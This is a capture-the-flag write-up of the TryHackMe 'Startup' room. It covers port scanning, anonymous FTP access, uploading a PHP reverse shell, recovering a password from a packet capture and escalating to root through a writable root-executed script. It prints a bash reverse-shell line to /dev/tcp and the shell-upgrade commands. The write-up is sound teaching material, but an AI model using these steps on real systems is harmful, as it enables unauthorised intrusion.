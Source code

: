 ```yaml
---
title: Startup-writeup-THM
date: 2024-01-07
categories: [room, easy]
tags: [linux, privesc]    # TAG names should always be lowercase
image: https://raw.githubusercontent.com/Blueaulo/Startup-writeup-THM/main/91426f10-815e-4dce-8275-a7e4a86904b0_Export-603ed8d9-2b1a-49ce-8213-7061cce6ff07/Startup%2009519d3a5bfc4be5bd4c3ca84ece9361/Untitled.png
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/startup">Startup</a>"

I will start with a nmap scan:

```bash
nmap -sC -sV 10.10.107.18                  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-04 15:17 EST
Nmap scan report for 10.10.107.18
Host is up (0.062s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.65.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

First of all we see that in the ftp server allows Anonymous login and that there are 2 file in it.

I will start with that:

```bash
ftp 10.10.107.18                                                           

Connected to 10.10.107.18.
220 (vsFTPd 3.0.3)
Name (10.10.107.18:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56482|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

```bash
cat notice.txt                

Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

We now have a name, Maya.

The site doesn’t tell us much:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Startup-writeup-THM/main/91426f10-815e-4dce-8275-a7e4a86904b0_Export-603ed8d9-2b1a-49ce-8213-7061cce6ff07/Startup%2009519d3a5bfc4be5bd4c3ca84ece9361/Untitled.png)

So I started a directory fuzzer:

```bash
ffuf -u http://10.10.107.18/FUZZ -w /usr/share/wordlists/dirb/big.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.107.18/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 59ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2807ms]
files                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 172ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 66ms]
:: Progress: [20469/20469] :: Job [1/1] :: 357 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```

I discovered the files directory which is the ftp share:

Maybe we can upload a php revshell with ftp.

We have write access in the ftp folder:

```bash

ftp> cd ftp
250 Directory successfully changed.
ftp> put php.php
local: php.php remote: php.php
229 Entering Extended Passive Mode (|||40969|)
150 Ok to send data.
100% |***************************************************************************************************|  3461       70.22 MiB/s    00:00 ETA
226 Transfer complete.
3461 bytes sent in 00:00 (6.92 KiB/s)
ftp>
```

I uploaded my pentester monkey php reverse shell

 

```bash
nc -lvnp 4444                                                                                                 

listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.107.18] 40798
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:52:55 up 37 min,  0 users,  load average: 0.00, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

And we got a shell!

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn ("/bin/bash")'      
www-data@startup:/$
```

I also spawned a nicer shell with the help of python.

apart from the recipe, in the home directory there are also a vagrant directory, which appears to be a home directory, and an incidents directory:

```bash
ls

bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```

In the incidents there is a pcapng file which we can read with wireshark, I downloaded the file uploading it in the ftp directory:

```bash
cp suspicious.pcapng /var/www/html/files/ftp
```

From here I looked up the traffic and found out that lennie, tried to login with his credentials with the www-data account:

```bash
Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
```

So I tried logging in and it worked:

```bash
www-data@startup:/incidents$ su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/incidents$
```

I then grabbed the user flag, and discovered a file in the etc folder that I owned that it was executed from root, I edited it with this and got a root shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.11.65.91/5555 0>&1
```